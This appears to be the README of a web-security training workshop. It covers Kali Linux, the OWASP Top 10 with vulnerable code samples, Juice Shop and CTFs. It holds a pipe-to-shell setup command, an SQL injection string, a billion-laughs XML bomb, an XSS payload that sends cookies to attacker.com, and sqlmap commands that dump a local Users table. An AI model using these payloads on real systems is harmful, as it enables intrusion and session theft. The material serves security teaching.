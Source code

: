 ## Welcome !

```shell
curl -fsSL http://<the server ip>:81/kali-setup.sh | sh
```

---

### Hacking

Hacking is unauthorized intrusion into a computer or a network. The person engaged in hacking activities is generally referred to as a hacker. This hacker may alter system or security features to accomplish a goal that differs from the original purpose of the system.

### Ethical hacking

Ethical hacking refers to the act of locating weaknesses and vulnerabilities of computer and information systems by duplicating the intent and actions of malicious hackers.

---

### Kali Linux

Kali Linux is a Debian-derived Linux distribution designed for digital forensics and penetration testing (pentest).

Kali Linux has over 600 preinstalled penetration-testing programs, including Armitage (a graphical cyber attack management tool), Nmap (a port scanner), Wireshark (a packet analyzer), John the Ripper password cracker, Aircrack-ng (a software suite for penetration-testing wireless LANs), Burp suite and OWASP ZAP web application security scanners. Kali Linux can run natively when installed on a computer's hard disk, can be booted from a live CD or live USB, or it can run within a virtual machine. It is a supported platform of the Metasploit Project's Metasploit Framework, a tool for developing and executing security exploits.

---

### OWASP Top 10

 * Injection
 * Broken Authentication
 * Sensitive Data Exposure
 * XML External Entities
 * Broken Access Control
 * Security Misconfiguration
 * Cross-site Scripting (XSS)
 * Insecure Deserialization
 * Using components with Known Vulnerabilities
 * Insufficient Logging & Monitoring

---

### Injection

When we use user-supplied data in a query, command, interpreter, etc.

Vulnerabilities:

```java
String query = "SELECT * FROM accounts WHERE custID='"
    + request.getParameter("id") + "'";

Query HQLQuery = session.createQuery("FROM accounts WHERE custID='"
    + request.getParameter("id") + "'");
```

Attack:
> http://example.com/app/accountView?id='or '1'='1

---

### Broken Authentication

When we don't correctly implement authentication flow (technically and/or functionnaly).

Vulnerabilities:
 * Permits brute force, credential stuffing.
 * Permits default, well-known passwords: 'admin/admin', 'admin/admin123', etc.
 * Uses weak credential recovery/forgotten-password processes.
 * Does not properly invalidate session IDs, sessions or tokens during logout or inactivity.

---

### Sensitive Data Exposure

When we don't properly encrypt sensitive data during transit and at rest.

Vulnerabilities:
 * HTTP, SMTP, FTP.
 * Sensitive data and/or backups are stored in clear text.
 * Old or weak cryptographic algorithms are used.
 * Default cryptographic keys are used.
 * Certificates are not valid.

Attacks:
 * The password database uses simple hashes to store everyone's passwords. A file upload flaw allows attacker to retrieve the password database. The attacker uses rainbow table to get passwords.

---

### XML External Entities

When we accept XML input or XML uploads or we use user-supplied data in XML.

Attacks:
 * The attacker attempts a denial-of-service attack with a billion laughs attack:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

---

### Broken Access Control

When we don't check that a user has the privileges and control to access the requested data.

Attacks:
 * The attacker change the account URL in his/her browser to access the account of someone else:
> http://myawesomeapp.net/account/234/edit
> http://myawesomeapp.net/account/356/edit

---

### Cross-Site Scripting

When we forget to escape an untrusted source of data.

Attacks:
 * The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```java
(String) page += "<input name='creditcard' type='TEXT' value='"
    + request.getParameter("CC") + "'>";
```

 The attacker modifies the ‘CC’ parameter in the browser to:

 ```javascript
 "><script>document.location="
    + "'http://www.attacker.com/cgi-bin/cookie.cgi"
    + "? foo='+document.cookie</script>"
 ```

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

---

### Juice shop

OWASP Juice Shop is an intentionally insecure webapp for security trainings written entirely in JavaScript which encompasses the entire OWASP Top Ten and other severe security flaws.

---

### CTF

Capture the Flag is a special kind of information security competitions:
 * In Attack-defence CTFs, every team has own network with vulnarable services. Your team has time for patching your services and developing exploits usually. So, then organizers connects participants of competition and the wargame starts! You should protect own services for defence points and hack opponents for attack points. 
 * Jeopardy-style CTFs has a couple of questions (tasks) in range of categories. Team can gain some points for every solved task. More points for more complicated tasks usually. Then the game time is over sum of points shows you a CTF winer.

---

### CTFd

CTFd is a Capture The Flag framework. It comes with everything you need to run a CTF and it's easy to customize with plugins and themes.

---

### Automated attacks

`nikto` is a web server scanner.

```
# update the database
nikto -update

# run the scan
nikto -host http://localhost:3000
```

`sqlmap` is an automatic SQL injection tool.

```
sqlmap --ignore-code=401 --url=http://localhost:3000/rest/user/login --data='{"email":"*", "password":"*"}' --level=5 --risk=3
sqlmap --ignore-code=401 --url=http://localhost:3000/rest/user/login --data='{"email":"*", "password":"*"}' --level=3 --risk=3 --tables --dbms=SQLite
sqlmap --ignore-code=401 --url=http://localhost:3000/rest/user/login --data='{"email":"*", "password":"*"}' --level=5 --risk=3 --dump -T Users --dbms=SQLite
```
